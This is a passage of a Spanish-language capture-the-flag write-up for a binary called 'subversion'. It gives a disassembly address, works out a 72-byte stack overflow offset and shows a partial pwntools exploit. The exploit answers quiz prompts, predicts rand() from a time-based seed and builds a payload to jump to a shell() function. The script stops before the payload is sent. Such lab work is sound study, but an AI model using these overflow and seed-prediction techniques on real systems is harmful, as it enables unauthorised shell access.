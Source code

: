 Obtenemos la dirección del registro `rdi` justo antes de llamar `system` y la apuntamos.

```bash
0x00000000004017b4 <+8>:     lea    0xba0(%rip),%rdi        # 0x40235b
```

Ahora necesitamos obtener el offset que tenemos que rellenar para llegar a desbordar y añadir la dirección del registro `rdi` que nos interesa.

Com vimos en la programación la respuesta del usuario se almacena en una variable `char buffer[64];`, por lo general cada `char` se almacena en un byte por lo que son 64 bytes, pero como estamos en un sitema de 64 bits añadiremos 8 bytes más.

Añadimos otra función a nuestro exploit para intentar llamar a la función `shell()` y obtener una consola bash.

```python
from pwn import *
import ctypes
from datetime import datetime, timezone

binario = './subversion'
p = process(binario)

# Cargar la biblioteca estándar de C
libc = ctypes.CDLL('libc.so.6')

# Funciones para usar rand y srand de C
def c_srand(seed):
    libc.srand(seed)

def c_rand():
    return libc.rand()

# Generar el número aleatorio con la semilla ajustada
current_time = int(datetime.now(timezone.utc).timestamp())
seed = current_time ^ 69
c_srand(seed)
random_number = c_rand() % 10000000

def responde():
    # Lista de respuestas
    respuestas = [
        b"1789",
        b"No violencia",
        b"Caida del Muro",
        b"Carta Magna",
        b"Lucha contra el apartheid"
    ]
    # Recorremos la lista de respuestas
    for resp in respuestas:
        # Esperamos hasta recibir "Respuesta:"
        p.recvuntil(b"Respuesta:")
        # Enviamos la respuesta
        p.sendline(resp)

# Enviamos número aleatorio
def aleatorio():
    p.recvuntil(b"Respuesta:")
    p.sendline(bytes(str(random_number), 'ascii'))

def overflow():
    funcion = p64(0x00000000004017b4)
    offset = 64+8 
    buffer = b"A"*offset
    payload = buffer + funcion
```